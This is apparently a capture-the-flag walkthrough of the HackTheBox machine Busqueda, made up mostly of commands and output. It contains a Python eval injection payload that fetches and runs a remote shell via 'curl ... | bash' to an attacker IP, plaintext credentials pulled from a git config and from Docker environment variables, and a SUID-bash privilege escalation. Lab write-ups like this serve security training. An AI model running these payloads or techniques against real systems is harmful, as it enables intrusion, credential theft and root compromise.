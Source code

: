 #HackTheBox #linux 
# 1- Enumeration
## Nmap
┌──(root㉿kali)-[~]
└─# nmap -p 22,80 -sC -sV 10.10.11.208
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-23 06:27 EDT
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
|_http-title: Searcher
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


# Exploit python injection
[query=]http%3a/127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+http%3a//10.10.16.15/shell|bash")','a','single'))%2b'

# Foot Hold
[svc@busqueda:~$] cat user.txt
d6ff0da1b6932543d041db66d1856197

[svc@busqueda:/var/www/app/.git$] cat config
	[core]
	        repositoryformatversion = 0
	        filemode = true
	        bare = false
	        logallrefupdates = true
	[remote "origin"]
	        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	        fetch = +refs/heads/*:refs/remotes/origin/*
	[branch "main"]
	        remote = origin
	        merge = refs/heads/main

passeword = jh1usoih2bkjaspwe92

┌──(root㉿kali)-[/media/…/challenge/HTB/machine/busqueda]
└─# ssh svc@searcher.htb           
svc@searcher.htb's password:  jh1usoih2bkjaspwe92

[svc@busqueda:~$] sudo -l	
	User svc may run the following commands on busqueda:
	    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

# PrivEsc
[svc@busqueda:/opt/scripts$] sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
	[sudo] password for svc: 
	Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)
	
	     docker-ps     : List running docker containers
	     docker-inspect : Inpect a certain docker container
	     full-checkup  : Run a full system checkup


$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
	"GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
	"GITEA__database__USER=gitea",
	      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
	      
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq
	"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
	      "MYSQL_USER=gitea",
	      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
	      "MYSQL_DATABASE=gitea",
	"IPAddress": "172.19.0.3",

$ mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea

svc@busqueda:/tmp$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/zelo\nchmod 4777 /tmp/zelo' > full-checkup.sh
svc@busqueda:/tmp$ chmod +x full-checkup.sh 
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ./zelo 
zelo-5.1$ exit
exit
svc@busqueda:/tmp$ ./zelo -p
zelo-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)

bash-5.1# cd /root
bash-5.1# ls
ecosystem.config.js  root.txt  scripts  snap
bash-5.1# cat root.txt 
f325765ec858c7cd95b69266f6bb8ee7